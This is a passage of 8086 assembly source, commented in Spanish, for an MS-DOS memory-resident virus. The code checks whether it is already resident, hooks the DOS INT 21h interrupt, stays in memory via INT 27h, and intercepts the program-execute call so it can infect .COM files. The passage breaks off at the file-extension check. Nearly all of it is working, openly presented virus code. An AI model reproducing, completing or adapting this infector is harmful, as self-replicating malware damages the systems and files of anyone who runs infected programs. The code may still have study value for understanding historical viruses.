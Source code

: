 .8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org 100h

start:     
    mov ax, 0ABCDh                    ; | AX = 0ABCDh  
    int 21h                           ; |_DOS API - Llamar servicio de reconocimiento del virus
                    
    cmp ax, 029Ah                     ; verificar código de respuesta  
    jne infect_int21h                 ; si no es 666 (29Ah), infectar INT 21h
                    
    mov ah, 00h                       ; | AH = 00h  
    int 21h                           ; |_DOS API - Retornar a DOS 

infect_int21h:     
    mov ah, 35h                       ; | AH = 35h  
    mov al, 21h                       ; | AL = número de interrupción, 21h  
    int 21h                           ; |_DOS API - Obtener vector en ES:BX
                    
    mov [vector_int21], bx            ; guardar vector original de INT 21h  
    mov [vector_int21 + 2], es
                    
    mov ah, 25h                       ; | AH = 25h  
    mov al, 21h                       ; | AL = número de interrupción, 21h  
    mov dx, offset handler_int21h     ; | DS:DX -> dirección del nuevo handler: handler_int21h  
    int 21h                           ; |_DOS API - Cambiar vector
    
                                      ; | CS = segmento de PSP  
    mov dx, offset eof                ; | DX = Tamaño de porción residente (bytes)  
    int 27h                           ; |_DOS API - Termina el programa y lo deja en memoria 

handler_int21h:     
    cmp ax, 0ABCDh                    ; llamada de verificación del virus:  
    je service_ABCD                   ; responder y retornar  
    cmp ax, 4B00h                     ; llamada para ejecutar archivo:  
    je infect_file                    ; infectar y delegar  
    jmp dword ptr cs:[vector_int21]   ; en otro caso, delegar al handler original de INT 21h 

service_ABCD:     
    mov ax, 029Ah                     ; código de respuesta: 666 (29Ah)  
    iret                              ; retornar de la interrupción

infect_file:    
    pushf  
    call dword ptr cs:[vector_int21]  ; simular INT 21h para ejecutar archivo

    pushf  
    pop cs:[ret_EFLAGS]
    
    push ax                           ; guardar registros que serán utilizados  
    push bx  
    push cx  
    push dx  
    push si  
    push ds  
                                      ; por la llamada AX=4B00h, DS:DX apunta al nombre del archivo  
    mov si, dx                        ; verificar que sea extensión ".COM"  
    
loop_str:     
    lodsb  
    or al, al  
    jz close_file  
    cmp al, '.';  
    jne loop_str  
    lodsb  
    cmp al, 'C';  